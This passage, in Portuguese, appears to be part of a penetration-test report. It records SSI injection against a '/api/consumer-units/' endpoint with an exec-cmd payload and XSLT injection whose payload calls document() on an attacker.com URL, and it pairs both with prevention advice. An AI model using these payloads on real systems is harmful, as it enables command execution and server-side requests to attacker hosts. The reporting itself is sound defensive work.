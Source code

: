 #### Teste Realizado

- **Cenário:** O endpoint `/api/consumer-units/` foi testado para verificar se a aplicação estava vulnerável a comandos SSI injetados, através da manipulação de entradas que poderiam ser processadas pelo servidor.
  
- **Teste:** Injeção de código SSI, como `<!--#exec cmd="ls" -->`, para tentar executar comandos no servidor através de arquivos processados pelo SSI.
  
- **Resultado:** O sistema permitiu a execução do comando, mostrando um diretório de arquivos do servidor.

**Prevenção:**
- Desabilitar a funcionalidade de SSI no servidor.
- Validar e sanitizar qualquer entrada que possa ser processada como um comando do servidor.

---

### XSLT Injection

**XSLT Injection** ocorre quando um atacante consegue injetar código malicioso em uma folha de estilos **XSLT** usada pelo servidor para transformar XML em HTML ou outro formato.

#### Teste Realizado

- **Cenário:** A aplicação foi analisada para identificar se a transformação de dados XML para HTML poderia ser manipulada via injeção de código malicioso no XSLT.
  
- **Teste:** Um payload foi injetado em um campo de entrada XML com código XSLT, como:
  ```xml
  <?xml version="1.0"?>
  <foo>
    <bar><xsl:value-of select="document('http://attacker.com/malicious')"/></bar>
  </foo>
  ```
  O objetivo foi fazer com que o servidor carregasse o recurso de uma URL externa controlada pelo atacante.
  
- **Resultado:** A requisição foi processada, permitindo a execução do código XSLT externo.

**Prevenção:**
- Restringir ou desabilitar o uso de `document()` em XSLT.
- Adotar práticas de segurança como validar a origem de documentos XSLT e XML.

---

## Sugestões de Melhoria

- **Controle de Acesso Baseado em Recursos:** Implementar validações rigorosas de acesso a recursos críticos como unidades de consumo, contratos e informações sensíveis.
  
- **Hardening de Servidores:** Desabilitar funcionalidades não utilizadas, como SSI e XSLT, em servidores de produção.
  
- **Filtros de Entrada:** Implementar filtros de entrada robustos para prevenir injeção de código, como SSTI e SSI Injection.
  